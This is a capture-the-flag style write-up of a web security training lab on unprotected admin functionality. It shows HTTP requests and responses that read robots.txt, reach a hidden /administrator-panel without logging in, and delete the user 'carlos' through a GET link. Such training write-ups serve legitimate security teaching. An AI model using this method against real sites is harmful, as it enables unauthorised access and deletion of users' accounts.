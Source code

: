 ## Lab: Unprotected admin functionality

This lab has an unprotected admin panel.

Solve the lab by deleting the user `carlos`.

## Solution:
We enter the site and sends the request to repeater and first action is to request robots.txt.
Request:
```http
GET /robots.txt HTTP/2
Host: 0ab5004c039c609481a32f0f00210040.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```
Response:
```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=1Upan7uS63a4DAqTMfwhu59vMYz4PDqE; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 45

User-agent: *
Disallow: /administrator-panel

```

Here we find the ```/administrator-panel``` and send a request there.
Request:
```http
GET /administrator-panel HTTP/2
Host: 0ab5004c039c609481a32f0f00210040.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=k2OK2lD45dR42kb5XpanNo70p8NRJxFm; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3034

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Unprotected admin functionality</title>
    </head>
**********SNIP**********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/administrator-panel/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/administrator-panel/delete?username=carlos">Delete</a>
                        </div>
                    </section>
                    <br>
                    <hr>
                </div>
            </section>
**********SNIP**********
</html>
```

In the html snippet we find the a tag with a href attribute pointing to /delete with a query string pointing to a username to delete.

We make a request to the a tag.
```http
HTTP/2 302 Found
Location: /administrator-panel
Set-Cookie: session=6QC0cViVhZZlzgl0x73AoKJaAKg7k5tI; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
We get a 302 which redirects us back to the admin panel with the message  
![](Deleted_User_Successfully.png)